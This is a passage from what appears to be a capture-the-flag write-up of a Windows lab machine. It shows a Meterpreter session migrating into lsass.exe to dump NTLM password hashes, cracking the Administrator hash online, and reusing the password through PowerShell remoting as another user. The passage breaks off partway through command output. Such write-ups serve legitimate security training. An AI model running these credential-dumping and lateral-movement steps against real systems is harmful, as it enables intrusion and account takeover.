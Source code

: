 I checked the membership of the `Managers` group and noticed that there was another user in this group: `awallace`.

### Cracking the Administrator password

```
meterpreter > migrate 632
[*] Migrating from 6768 to 632...
[*] Migration completed successfully.
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Natasha:1001:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:24571eab88ac0e2dcef127b8e9ad4740:::
```

Since I was already elevated to `SYSTEM`, I was able to run hashdump after migrating processes to `lsass.exe`.  

![The website CrackStation showing the admin password cracked](/assets/img/acute_12_cracked.png)

Using the website crackstation.net I was able to quickly get the password for the Administrator hash.  However, using the password `Password@123` did not work, so I figured that maybe another user might be using this password.

## Enumeration as awallace

```
PS C:\utils> $passwd = ConvertTo-SecureString "Password@123" -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential ("acute\awallace",$passwd)

PS C:\utils> Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock{whoami /all} -credential $cred

USER INFORMATION
----------------

User Name      SID                                           
============== ==============================================

acute\awallace S-1-5-21-1786406921-1914792807-2072761762-1104

GROUP INFORMATION
-----------------

Group Name                                   Type             SID                                            Attributes
```